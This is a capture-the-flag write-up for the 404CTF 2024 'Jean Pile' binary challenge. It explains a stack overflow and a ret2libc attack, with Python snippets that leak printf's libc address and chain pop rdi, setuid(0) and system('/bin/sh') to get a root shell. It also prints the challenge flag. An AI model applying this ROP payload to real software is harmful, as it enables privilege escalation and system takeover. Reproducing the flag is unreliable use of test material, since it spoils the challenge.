```yaml
---
title: CTFs | 404CTF_2024 | Exploitation de Binaire | Jean Pile
author: BatBato
date: 2024-04-25
categories:
  - CTFs
  - 404_CTF_2024
  - Exploitation de Binaire
tags:
  - Binary
  - ret2libc
  - libc
permalink: /CTFs/404_CTF_2024/Exploitation_de_Binaire/Jean_Pile
---
```


# Jean Pile

![[jean_enonce.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_enonce.png)

Here, we have the [following](Exploitation_de_Binaires/jean_pile) binary. First, lets check the type of the file and its  protections:

![[jean_info.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_info.png)

So we know that the `ASLR` is enabled and that we can execute code in the stack (`NX` disabled).

When we open it, we see nothing really interesting in the main but the main code is available in the `service()` function:

![[jean_service.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_service.png)

As we can see, the `plat` variable is `40` bytes long but then when select our dish, we can put `200` character in it (`200` bytes).

First, lets put a breakpoint at the `leave` instruction of the service function:

![[jea_break.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jea_break.png)

Now we can run the program and send a custom payload like `"A"*40+"B"*8+"C"*8+"D"*8` for one command:
![[jean_break2.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_break2.png)

Now lets look at the stack:

![[jean_stack.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_stack.png)

> Note the use of `g` in our `x/gx` command. This is because, we are running an `64` bit ELF.

We notice the return address is overwritten by our `D` (`0x44`). This allows us to know that the offset we are going to use is `40+8+8` (`56`).

First I tried to put a lot of `nop` in the stack and try to point in the middle of those `nop` so that my shell-code could be executed. But because of `ASLR`, this isn't possible.

>  Shell-codes can be found at [https://shell-storm.org/shellcode/](https://shell-storm.org/shellcode/)
{: .prompt-tip}

I found [this  blog](https://bkaraceylan.github.io/hack/binary-exploitation/2020/05/02/defeating-aslr-part-2.html) that talks about `ret2libc` attack. I'll let you read it to have a better understanding about this kind of attacks, here we are just going to perform it. First we need to get the address of some objects. As in the blog, we are going to search for the `main`, `put`, `printf` and `pop rdi` gadget addresses:

![[jean_obj.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_obj.png)
![[jean_gadget2.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_gadget2.png)

So we are going to take the `PLT` addresses for every object except for the `printf` because we need it to come from the `GLIBC` to be able to leak the address of the `GLIBC`. So our python code looks like:

```python
# Stage 1 (Leaking the address of printf@GLIBC)
#objdump -d jean_pile | grep _start
plt_main = p64(0x4006e0)
plt_put = p64(0x400660)
got_printf = p64(0x602020)
#ROPgadget --binary jean_pile | grep "pop rdi"
pop_rdi = p64(0x400b83)
junk = b"A" * 56
```

With all of this information, we can leak the address of the `printf` from the `GLIBC` and find which one is running on the remote server:

![[jean_libcAdddr.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_libcAdddr.png)

Now we go to the [https://libc.blukat.me/](https://libc.blukat.me/) website to find which libc is used:

![[jean_libc_finder.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_libc_finder.png)

We can download the first one and try with it. If this don't work we will need to try the second, third... and so on until we find the correct one.

With the `GLIBC` downloaded, we can use `readelf` and `strings` to get all the information we need:

![[jean_libc_gadget.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_libc_gadget.png)

With all this information we will have in our python code the following:

```python
# Stage 2 (Obtaining the addresses and pwning)
#readelf -s libc6-amd64_2.36-9+deb12u4_i386.so | grep print
libc_printf = 0x525b0
libc_sys = 0x4c490
libc_exit = 0x3e680
libc_setuid = 0xd54b0
#strings -a -t x libc6-amd64_2.36-9+deb12u4_i386.so | grep /bin/sh
libc_sh = 0x196031

# Calculate the the base address of libc
libc_main = leaked_printf - libc_printf
log.success("libc_main:" + hex(libc_main))

# Add the offsets to the base address to obtain the addresses libc functions
sys = p64(libc_main + libc_sys)
sh = p64(libc_main + libc_sh)
setuid = p64(libc_main + libc_setuid)
# Setting 0 as the first argument to setuid will escalate to root priviliges
root = p64(0)
payload = junk + pop_rdi + root + setuid + pop_rdi + sh + sys
```

You can find the full code [here](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/exploit.py).

Now we can run our code and...Voilà:

![[jean_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/jean_flag.png)

So the flag is `404CTF{f4n_2_8denn3u}`